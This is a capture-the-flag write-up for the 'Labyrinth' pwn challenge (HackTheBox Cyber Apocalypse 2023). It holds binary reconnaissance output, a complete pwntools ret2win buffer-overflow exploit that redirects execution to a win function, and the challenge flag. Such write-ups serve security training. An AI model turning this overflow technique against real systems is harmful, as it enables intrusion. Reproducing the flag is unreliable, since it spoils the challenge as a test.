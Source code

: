```yaml
---
name: Labyrinth (2023)
event: HackTheBox Cyber Apocalypse - Intergalactic Chase CTF 2023
category: Pwn
description: Writeup for Labyrinth (Pwn) - HackTheBox Cyber Apocalypse - Intergalactic Chase CTF (2023) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Labyrinth

## Description

> You find yourself trapped in a mysterious labyrinth, with only one chance to escape. Choose the correct door wisely, for the wrong choice could have deadly consequences.

## Solution

Check file info and binary protections.

{% code overflow="wrap" %}
```bash
file labyrinth
labyrinth: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./glibc/ld-linux-x86-64.so.2, BuildID[sha1]=86c87230616a87809e53b766b99987df9bf89ad8, for GNU/Linux 3.2.0, not stripped
```
{% endcode %}

{% code overflow="wrap" %}
```bash
checksec --file labyrinth
[*] '/home/crystal/Desktop/htb/challenge/labyrinth'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'./glibc/'
```
{% endcode %}

Decompile in ghidra and find we must select door `69` followed by door `069`. However, providing `069` is enough to satisfy both conditions.

In ghidra, we can find our offset of `64` and a "win" function called `escape_plan` which prints the flag.

{% code overflow="wrap" %}
```python
from pwn import *


# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
break *0x401602
continue
'''.format(**locals())

# Binary filename
exe = './labyrinth'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Offset to RIP
offset = 64

# Start program
io = start()

ret = 0x401016

# Build the payload
payload = flat([
    b'C' * (offset - 8),
    ret,  # stack alignment
    elf.symbols.escape_plan
])

# Pass initial checks
io.sendlineafter(b'>', b'069')

# Send the payload
io.sendlineafter(b'>', payload)

# Got Flag?
io.recvuntil(b'journey:')
warn(io.recvlines(2)[1].decode())
```
{% endcode %}

Flag: `HTB{3sc4p3_fr0m_4b0v3}`
